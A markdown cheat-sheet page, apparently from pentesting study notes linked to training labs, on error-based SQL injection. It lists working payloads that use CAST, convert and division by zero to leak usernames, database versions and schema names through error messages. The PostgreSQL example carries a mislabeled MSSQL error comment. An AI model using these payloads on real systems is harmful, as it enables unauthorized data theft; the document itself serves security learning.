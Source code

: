 # Error-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sqli_visible_errors](../../../../../_badges/ps-lab/sqli/sqli_visible_errors.svg)](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)
[![mystery](../../../../../_badges/ps-lab/mystery.svg)](https://portswigger.net/web-security/all-topics)

<div class="row row-cols-lg-2"><div>

Error messages are sometimes enabled. They make it easier to exploit another type of SQL injection, such as Union-based SQLi.

If no other easiest SQLi attack is possible, we may use error messages to dump the database.

```sql!
-- Error: Incorrect INTEGER value: 'admin'
Select 1=CAST((SELECT username FROM accounts LIMIT 1) AS int)
```

```sql!
-- Error: Division by zero
Select [...] where 1=(case when (1=1) then 1/0 else 0 end)
```
</div><div>

In MSSQL, if `CAST` doesn't work, try `convert`:

```sql!
-- Conversion failed ... value 'Microsoft SQL [...]' ...
Select convert(int,@@version)
Select convert(int,(select @@version))
```

In PostgreSQL, a few commands:

```sql!
-- Conversion failed ... value 'Microsoft SQL [...]' ...
Select 1=CAST((SELECT version()) AS int)
Select 1=CAST((SELECT STRING_AGG(SCHEMA_NAME,',') FROM INFORMATION_SCHEMA.SCHEMATA) AS int)
```
</div></div>